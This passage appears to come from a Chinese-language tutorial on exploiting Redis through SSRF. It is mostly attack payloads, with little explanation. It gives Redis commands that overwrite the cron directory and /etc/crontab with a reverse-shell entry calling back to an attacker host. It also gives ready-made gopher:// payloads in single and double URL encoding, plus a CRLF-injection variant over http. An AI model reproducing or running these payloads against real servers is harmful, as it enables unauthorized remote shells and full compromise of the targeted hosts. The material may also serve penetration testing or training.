 与dict打redis类似先将弹shell语句写入 redis.cmd
```
flushall
config set dir /var/spool/cron
config set dbfilename root
set shell "\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.124.
141/2333 0>&1\n\n"
save
```
运行redis-over-gopher.py生成payload，更改payload中的ip和port

```
gopher://192.168.124.128:6380/_%2a%31%0d%0a%24%38%0d%0a%66%6c%75%73%68%61%6c%6c%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%33%0d%0a%64%69%72%0d%0a%24%31%35%0d%0a%2f%76%61%72%2f%73%70%6f%6f%6c%2f%63%72%6f%6e%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%31%30%0d%0a%64%62%66%69%6c%65%6e%61%6d%65%0d%0a%24%34%0d%0a%72%6f%6f%74%0d%0a%2a%33%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%35%0d%0a%73%68%65%6c%6c%0d%0a%24%36%30%0d%0a%5c%6e%5c%6e%2a%2f%31%20%2a%20%2a%20%2a%20%2a%20%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%32%34%2e%31%34%31%20%30%3e%26%31%5c%6e%5c%6e%0d%0a%2a%31%0d%0a%24%34%0d%0a%73%61%76%65%0d%0a
```
同样的，如果不是利用curl的话，直接打需要再次url编码。
```
gopher://192.168.124.128:6380/_%252a%2531%250d%250a%2524%2538%250d%250a%2566%256c%2575%2573%2568%2561%256c%256c%250d%250a%252a%2534%250d%250a%2524%2536%250d%250a%2563%256f%256e%2566%2569%2567%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2533%250d%250a%2564%2569%2572%250d%250a%2524%2531%2535%250d%250a%252f%2576%2561%2572%252f%2573%2570%256f%256f%256c%252f%2563%2572%256f%256e%250d%250a%252a%2534%250d%250a%2524%2536%250d%250a%2563%256f%256e%2566%2569%2567%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2531%2530%250d%250a%2564%2562%2566%2569%256c%2565%256e%2561%256d%2565%250d%250a%2524%2534%250d%250a%2572%256f%256f%2574%250d%250a%252a%2533%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2535%250d%250a%2573%2568%2565%256c%256c%250d%250a%2524%2536%2530%250d%250a%25%5c%256e%25%5c%256e%252a%252f%2531%2520%252a%2520%252a%2520%252a%2520%252a%2520%2562%2561%2573%2568%2520%252d%2569%2520%253e%2526%2520%252f%2564%2565%2576%252f%2574%2563%2570%252f%2531%2539%2532%252e%2531%2536%2538%252e%2531%2532%2534%252e%2531%2534%2531%2520%2530%253e%2526%2531%25%5c%256e%25%5c%256e%250d%250a%252a%2531%250d%250a%2524%2534%250d%250a%2573%2561%2576%2565%250d%250a
```
### http
http如果使用存在crlf注入的方式，一样可以用http来攻击redishttp://127.0.0.1:6379?%0d%0aKEYS%20*%0d%0apadding
+ 发送三条redis命令，将弹shell脚本写入/etc/crontab：
```
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/evil/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```
进行url编码：
```
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```
注意，换行符是“\r\n”，也就是“%0D%0A”。